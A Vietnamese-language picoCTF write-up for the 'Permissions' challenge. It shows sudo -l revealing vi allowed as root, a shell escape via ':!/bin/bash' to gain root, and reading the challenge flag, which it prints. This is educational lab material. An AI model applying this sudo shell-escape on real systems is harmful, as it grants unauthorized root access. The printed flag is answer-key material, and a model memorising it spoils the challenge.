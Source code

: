 # Permissions

Đầu tiên ta kiểm tra người đang sử dụng là ai:

```python
picoplayer@challenge:~$ whoami
picoplayer
```

Kiểm tra tiếp quyền của picoplayer là gì:
(Hint: What permissions do you have?)

```python
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer:
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```

Như chúng ta thấy. picoplayer có thể dùng `vi` như một `root` ở bất kì file nào. Ta tạo một file test bằng `vi`:

```python
picoplayer@challenge:~$ sudo vi test
```

Chạy lệnh sau trong `Command mode` của `vi` (truy cập Command mode bằng phím `ESC`)

```python
:!/bin/bash
```

Sau khi enter ta sẽ có được `root`. Bước cuối cùng là tìm ra flag:

```python
root@challenge:/home/picoplayer# cd ~
root@challenge:~# ls -la
total 12
drwx------ 1 root root   23 Aug  4 21:34 .
drwxr-xr-x 1 root root   51 Sep  9 08:31 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4 21:34 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
root@challenge:~# cat .flag.txt
picoCTF{uS1ng_v1m_3dit0r_55878b51}
root@challenge:~# pwd
/root
```
